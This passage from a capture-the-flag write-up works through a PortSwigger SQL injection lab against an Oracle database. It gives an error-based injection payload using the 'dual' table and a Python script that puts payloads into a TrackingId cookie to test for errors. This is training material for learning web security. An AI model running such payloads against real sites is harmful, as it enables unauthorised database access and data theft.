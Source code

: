 Still error?? Looks like it's using Oracle database. In SQL injection [lab 7](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-7/README.md), we found that Oracle database **must have `FROM` clause in `SELECT` statement.**

To solve this problem, **we can use the `dual` in-memory table:**

```sql
3UMSejaDQcnYpBjx'||(SELECT '' FROM dual)||'
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-12/images/Pasted%20image%2020221207055839.png)

No error this time!

Now, we can confirm that it's vulnerable to **conditional error-based SQL injection**!

**Also, for the sake of automation, I'll write a simple python script:**
```py
#!/usr/bin/env python3

import requests

url = 'https://0ab600a003b6a83bc3051eae001f006b.web-security-academy.net/'

trackingid = 'YOUR_TRACKINGID'
payload = f"""{trackingid}PAYLOAD_HERE"""

cookie = {
	'session': 'YOUR_SESSIONID',
	'TrackingId': payload
}

r = requests.get(url, cookies=cookie)

if r.status_code == 200:
	print('No error')
else:
	print('Error occurred')
```
